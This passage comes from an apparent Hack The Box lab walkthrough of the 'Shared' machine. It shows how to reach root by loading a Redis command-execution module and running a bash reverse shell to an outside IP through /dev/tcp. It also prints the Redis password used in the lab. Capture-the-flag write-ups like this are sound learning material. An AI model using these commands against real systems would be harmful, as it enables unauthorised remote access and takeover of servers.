 <p align="center">
  <img src="/images/walkthroughs/hackthebox/shared/7_0_root.png" width="95%"/>
</p>

We can also get a revshell. Trying to insert it into the io.popen function didn't work out, so I tried other method published on HackTricks, using [this GitHub repo](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand). Essetially it is a module that you can load on redis and it will execute commands. Just make the module and upload it to the box. Run redis-cli, use the password, load the module and execute your revshell:

```bash
dan_smith@shared:~$ redis-cli
127.0.0.1:6379> AUTH F2WHqJUz2WEz=Gqq
OK
127.0.0.1:6379> MODULE LOAD /home/dan_smith/module.so
OK
127.0.0.1:6379> system.exec "bash -c 'bash -i &> /dev/tcp/10.10.14.112/5454 0>&1'"
```

<p align="center">
  <img src="/images/walkthroughs/hackthebox/shared/7_2_rev.png" width="95%"/>
</p>

